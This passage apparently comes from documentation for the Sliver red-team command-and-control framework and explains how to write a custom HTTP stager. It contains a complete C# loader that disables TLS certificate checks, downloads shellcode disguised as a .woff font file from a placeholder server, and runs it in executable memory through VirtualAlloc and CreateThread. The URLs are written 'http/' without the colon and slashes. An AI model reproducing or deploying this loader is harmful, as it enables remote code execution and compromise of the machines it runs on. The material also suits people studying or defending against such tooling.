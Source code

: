 The default file extension used to retrieve a stage 2 payload is `.woff`. It can be configured in the [HTTP C2 options](/docs?name=HTTPS+C2) using the `stager_file_ext` setting.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http/SLIVER-SERVER:STAGING-PORT/whatever.woff`.

Here is a C# example of a custom HTTP stager, make sure to compile the C# code for the correct CPU architecture e.g. `/platform:x64`:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
 public class Stager
 {
 private static string url = "http/a.bc/test.woff";

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll")]
 static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
 static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

 public static void DownloadAndExecute()
 {
 ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
 System.Net.WebClient client = new System.Net.WebClient();
 byte[] shellcode = client.DownloadData(url);
 IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
 Marshal.Copy(shellcode, 0, addr, shellcode.Length);
 IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
 return;
 }

 public static void Main(String[] args)
 {
 DownloadAndExecute();
 }
 }
}
```

## Encrypted Stage Example
